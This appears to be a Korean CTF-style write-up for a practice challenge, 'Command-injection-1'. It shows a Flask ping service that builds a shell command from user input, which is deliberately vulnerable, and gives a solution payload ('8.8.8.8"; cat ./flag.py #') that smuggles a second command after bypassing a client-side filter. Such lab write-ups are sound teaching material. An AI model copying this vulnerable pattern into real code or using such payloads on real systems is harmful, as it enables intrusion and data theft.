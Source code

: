 ```yaml
---
title: "[2025-07-15] Command-injection-1"
excerpt: "Command Injection"

categories:
  - Problem
tags:
  - [Command Injection]

permalink: /Problem/[2025-07-15] Command-injection-1/

toc: true
toc_sticky: true

date: 2025-07-15
last_modified_at: 2025-07-15
---
```


## 🦥 본문

- app.py

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)

@APP.route('/')
def index():
    return render_template('index.html')

@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')

if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)

```

/ping API에서 사용자가 보낸 파라미터를 텍스트화 하여 `ping -c 3` 을 실행한다. 

그렇기 때문에 “를 통해 텍스트화를 벗어나 flag.py를 cat을 통해 볼 수 있을 것이다. 하지만 

- ping.html

```python
<input type="text" class="form-control" id="Host" placeholder="8.8.8.8" name="host" pattern="[A-Za-z0-9.]{5,20}" required>
```

위와 같은 필터링이 있는 데 개발자 도구를 통해 지워준 후 보낸다

### 풀이

1. 개발자 도구를 통해 pattern 부분을 지운다.
2. 다음과 같은 코드를 보낸다

```python
8.8.8.8"; cat ./flag.py #
```